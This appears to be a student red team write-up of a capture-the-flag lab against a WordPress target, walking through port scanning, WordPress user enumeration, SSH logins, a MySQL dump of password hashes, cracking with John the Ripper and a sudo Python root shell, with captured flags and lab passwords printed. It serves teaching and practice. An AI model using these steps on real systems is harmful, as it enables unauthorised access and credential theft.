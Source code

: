 ﻿Joaquin Serrano

# Red Team: Summary of Operations

### Table of Contents:
   * Exposed Services
   * Critical Vulnerabilities
   * Exploitation

### Exposed Services:
- Kali Linux Command:
Ping Scan only: $ nmap -sP 192.168.1.0/24
![](https://github.com/y2keno/final_project/blob/30062c908e5644872dddccd38346283d0b5f18b4/Final_Red_Team/images/image7.png)
 
Nmap scan results for each machine reveal the below services and OS details:

- Kali Linux Command: 
Find the version of the service running on port 192.168.1.110:
$ nmap -sV 192.168.1.110
![](https://github.com/y2keno/final_project/blob/df913b8917446432e94c1c6375b6100aa8389038/Final_Red_Team/images/image8.png)

This scan identifies the services below as potential points of entry:

- Target 1 -Michael
   * Port 22/TCP Open SSH
   * Port 80/TCP Open HTTP
   * Port 111/TCP Open rcpbind
   * Port 139/TCP Open netbios-ssn
   * Port 445/TCP Open netbios-ssn

### Critical Vulnerabilities: 
The following vulnerabilities were identified on each target:

- Target 1
   * Unsalted User Password Hash (WordPress Database)
   * Misconfiguration of User Privileges/Privilege Escalation
   * Weak User Password
   * User Enumeration (WordPress site)

### Exploit Used
   * dirb returns the enumerated directories found within the target URL
![](https://github.com/y2keno/final_project/blob/2b18992a598038337b3eea06eb8e762ca11ae9a6/Final_Red_Team/images/image1.png)
![](https://github.com/y2keno/final_project/blob/9daf1cc299e38973b8392e18e94f21011da9d766/Final_Red_Team/images/image10.png)

The Red Team was able to penetrate Target 1 and retrieve the following confidential data:
![](https://github.com/y2keno/final_project/blob/dbc3bb6c5a0d8ced95df9e13162e2d82bcd9a675/Final_Red_Team/images/image22.png)

- Target 1
- flag1.txt: b9bbcb33e11b80be759c4e844


### Exploit Used
- WPScan to enumerate users of the Target 1 WordPress site
   - SSH using Michael’s credentials, Flag 1 was found
   - Flag 1 was found in /var/www in the HTML folder


- Kali Linux Command: 
$ wpscan -u http://192.168.1.110/wordpress -eu 
![](https://github.com/y2keno/final_project/blob/f2315f50a2a9bd73db6ce996acaf697740dae695/Final_Red_Team/images/image2.png)
![](https://github.com/y2keno/final_project/blob/eeff044c9c10ecd69f6574bca247e958df05c134/Final_Red_Team/images/image16.png)
![](https://github.com/y2keno/final_project/blob/638eec6e538de727c61a25a0b6898746f70bac65/Final_Red_Team/images/image17.png)

- flag2.txt: fc3fd58dcdad9ab23faca6e9a36e581c


### Exploit used:
   * Continuation of exploit from Target 1. 
   * SSH using Michael’s credentials, Flag 2 was found. 
   * Flag 2 was found in /var/www next to the HTML folder that held Flag 1. 

- Kali Linux Commands: 
   * $ ssh michael@192.168.1.110
   * pwd
   * cd var/www
   * ls -l
   * cat flag2.txt

![](https://github.com/y2keno/final_project/blob/3ffd601fef819d7e5dce7e0f70b736d1a4ba00e1/Final_Red_Team/images/image12.png)
  
- Flag 3: afc01ab56b50591e7dccf93122770cd2

### Exploit used: 
   * Continuation of Exploit from Target 1. 

- Capturing Flag 3: 
   * Gaining My SQL database access
   * Flag 3 was found in wp_posts table in the WordPress database
![](https://github.com/y2keno/final_project/blob/652b01b2217eb4d50b611e7bdaafb4eb5b2ed6fb/Final_Red_Team/images/image15.png)  

- Kali Linux Command: 
   - $ mysql -u root -p
   - Password: R@v3nSecurity  Host: 127.0.0.1
   - Or $ mysql -u root -p’R@v3nSecurity’ -h 127.0.0.1 
   - show databases;
   - use wordpress; 
   - show tables;
   - Select * from wp_users; 

![](https://github.com/y2keno/final_project/blob/652b01b2217eb4d50b611e7bdaafb4eb5b2ed6fb/Final_Red_Team/images/image4.png)
![](https://github.com/y2keno/final_project/blob/652b01b2217eb4d50b611e7bdaafb4eb5b2ed6fb/Final_Red_Team/images/image14.png)
![](https://github.com/y2keno/final_project/blob/652b01b2217eb4d50b611e7bdaafb4eb5b2ed6fb/Final_Red_Team/images/image21.png)
![](https://github.com/y2keno/final_project/blob/652b01b2217eb4d50b611e7bdaafb4eb5b2ed6fb/Final_Red_Team/images/image3.png)
![](https://github.com/y2keno/final_project/blob/652b01b2217eb4d50b611e7bdaafb4eb5b2ed6fb/Final_Red_Team/images/image12.png)

### Exploit used:
   - Unsalted password hash and privilege escalation with Python
   - Capturing flag 4: Secure user credentials from database, utilize John the Ripper to crack hash and use python to gain root privileges. 
   - Utilizing the info from capturing flag 3. The Select * from wp_users command will reveal the username and password hashes for Michael and Steven utilizing MySQL.
   - Copied the username and password hash for Steven. Saved the file and named it  hash.txt
   ![](https://github.com/y2keno/final_project/blob/652b01b2217eb4d50b611e7bdaafb4eb5b2ed6fb/Final_Red_Team/images/image13.png)

- Kali Linux Commands: 
   * mysql -u root -p’R@v3nSecurity’ -h 127.0.0.1
   * show databases; 
   * use wordpress;
   * show tables; 
   * select * from wp_users;

![](https://github.com/y2keno/final_project/blob/652b01b2217eb4d50b611e7bdaafb4eb5b2ed6fb/Final_Red_Team/images/image3.png)

### Exploit Used: 
- Utilized John the Ripper to crack the password hash from the hash.txt file.
- Kali Linux command: 
   * $ john hash

![](https://github.com/y2keno/final_project/blob/652b01b2217eb4d50b611e7bdaafb4eb5b2ed6fb/Final_Red_Team/images/image19.png)
  
* Steven Password cracked: pink84

![](https://github.com/y2keno/final_project/blob/652b01b2217eb4d50b611e7bdaafb4eb5b2ed6fb/Final_Red_Team/images/image6.png)
  
* SSH using Steven’s credentials, Flag 4 was found.
* ssh steven@192.168.1.110 
* pw:pink84
* sudo -l
* sudo python -c ‘import pty;pty.spawn(“/bin/bash”);’
![](https://github.com/y2keno/final_project/blob/652b01b2217eb4d50b611e7bdaafb4eb5b2ed6fb/Final_Red_Team/images/image9.png)
  
* Use python to gain root privileges
![](https://github.com/y2keno/final_project/blob/652b01b2217eb4d50b611e7bdaafb4eb5b2ed6fb/Final_Red_Team/images/image20.png)
  
* cd root
* ls
* cat flag4.txt

![](https://github.com/y2keno/final_project/blob/652b01b2217eb4d50b611e7bdaafb4eb5b2ed6fb/Final_Red_Team/images/image18.png)

### Captured Flag4: 715dea6c055b9fe33354932f2941ce